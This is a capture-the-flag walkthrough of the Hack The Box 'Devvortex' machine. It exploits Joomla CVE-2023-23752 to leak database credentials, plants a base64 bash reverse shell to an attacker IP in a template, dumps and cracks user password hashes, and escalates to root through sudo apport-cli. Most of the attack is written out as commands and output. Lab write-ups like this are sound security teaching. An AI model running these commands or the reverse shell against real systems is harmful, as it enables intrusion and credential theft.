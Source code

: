 In http://dev.devvortex.htb/README.txt we found the Joomla version 4.2 and we found the CVE-2023-23752 with **[this exploit](https://www.exploit-db.com/exploits/51334)** in exploitDB, but that exploit was throwing errors. We found by the CVE **[this exploit](https://github.com/0xNahim/CVE-2023-23752)**

```bash
──(kali㉿kali)-[~/Documents/Boxes/Devvortex-10.10.11.242/CVE-2023-23752]
└─$ ./exploit.py -u http://dev.devvortex.htb
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered
Site info
Sitename:Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: False

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption: 0
```

So we get credentials lewis:P4ntherg0t1n5r3c0n## . Now we get inside and modify a template to get a shell

![[Pasted image 20231125205708.png]]

We use a encoded base64 reverse shell

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Devvortex-10.10.11.242]
└─$ echo 'bash -i >& /dev/tcp/10.10.14.22/9001 0>&1'|base64 
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi85MDAxIDA+JjEK

URL ENCODED: echo+'YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4yMi85MDAxIDA%2BJjEK'|base64+-d|bash

┌──(kali㉿kali)-[~/Documents/Boxes/Devvortex-10.10.11.242/CVE-2023-23752]
└─$ curl http://dev.devvortex.htb/templates/cassiopeia/error.php?bmVsaWEK=echo+%27YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4yMi85MDAxIDA%2BJjEK%27%7Cbase64+-d%7Cbash

---------------

┌──(kali㉿kali)-[~/Documents/Boxes/Devvortex-10.10.11.242]
└─$ nc -nvlp 9001                                                                                                   
listening on [any] 9001 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.11.242] 51682
bash: cannot set terminal process group (862): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ whoami
www-data
```

Now, as we saw with the exploit we are facing a mysql db so connect to it

```bash
www-data@devvortex:/tmp$ mysql -h localhost -u lewis -pP4ntherg0t1n5r3c0n## joomla

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla;
Database changed
mysql> show tables
    -> ;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
[...SNIP...]
| sd4fg_users                   |
[...SNIP...]
71 rows in set (0.01 sec)

mysql> select * from sd4fg_users;
[...SNIP...]
logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","ad","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} 
2 rows in set (0.00 sec)
```

Crack with john

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Devvortex-10.10.11.242]
└─$ john logan.hash -w=/usr/share/wordlists/rockyou.txt 
[...SNIP...]
tequieromucho    (?)  
```

Change user with `su logan`. For privilege escalation we check the sudoers

```bash
logan@devvortex:/tmp$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

And we find **[this vulnerability](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb)** so we have to execute as sudo the app and escape to get a shell

```bash
logan@devvortex:/tmp$ sudo apport-cli  -c /var/crash/_usr_bin_apport-cli.0.crash         
*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (45.7 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
.................................................................................

[...SNIP...]

WARNING: terminal is not fully functional
-  (press RETURN)!id
uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)
!/bin/bash
root@devvortex:/tmp# whoami
root
```

And we are root